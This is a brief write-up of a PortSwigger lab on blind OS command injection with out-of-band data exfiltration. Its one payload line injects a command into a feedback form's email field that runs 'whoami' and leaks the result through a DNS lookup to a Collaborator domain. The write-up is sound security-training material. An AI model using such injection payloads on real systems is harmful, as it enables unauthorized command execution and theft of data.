

## Metadata

- **Difficulty:** Practitioner
- **Category:** OS Command Injection
- **Lab URL:** [Lab: Blind OS command injection with out-of-band data exfiltration](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)
- **Date Solved:** 22/8/2026

Pretty much everything is the same as [Lab: Blind OS command injection with out-of-band interaction](../lab-blind-out-of-band/writeup.md) but the payload, refer to it for more details.
## Payload Used

`;dig%20$(whoami).domain-id.oastify.com;` (inject into `email` parameter of the submit feedback functionality). This causes a DNS lookup to our Collaborator's domain containing the result of the `whoami` command.

